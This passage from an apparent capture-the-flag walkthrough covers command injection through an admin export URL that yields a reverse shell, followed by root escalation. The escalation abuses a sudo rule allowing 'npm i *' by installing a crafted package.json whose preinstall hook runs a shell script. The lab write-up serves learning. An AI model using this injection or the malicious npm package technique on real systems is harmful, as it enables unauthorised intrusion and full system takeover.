 Execute the file:
```markdown
GET /admin/export?table=notes%26bash+shell HTTP/1.1
```

After executing the reverse shell, the listener on my IP and port 9001 starts a reverse shell on the box as the user _algernon_.

## Privilege Escalation

Looking at the sudo privileges of _algernon_, it shows that he can execute **npm** with root privileges:
```markdown
sudo -l

# Output
User algernon may run the following commands on holiday:
    (ALL) NOPASSWD: /usr/bin/npm i *
```

This commands is the **Node Package Manager** which is needed to install packages for **Node.js** and with the `i *` parameter the user can _install_ any package. It is possible to execute commands from the system with the _preinstall_ parameter.

Create a directory for the following files:
```markdown
mkdir privesc
```

Create _index.js_:
```javascript
module.exports = "dangerous npm install";
```

Create _package.json_:
```json
{
  "name": "rimrafall",
  "version": "1.0.0",
  "description": "Executes a reverse shell",
  "main": "index.js",
  "scripts": {
    "preinstall": "bash /tmp/shell"
  },
  "keywords": [
    "rimraf",
    "rmrf"
  ],
  "author": "João Jerónimo",
  "license": "ISC"
}
```

The file on _/tmp/shell_ is the same reverse shell as before but connects to port 9002. Now we can install the package to execute the reverse shell:
```markdown
sudo npm i privesc/ --unsafe
```

The listener on my IP and port 9002 starts a reverse shell as root!
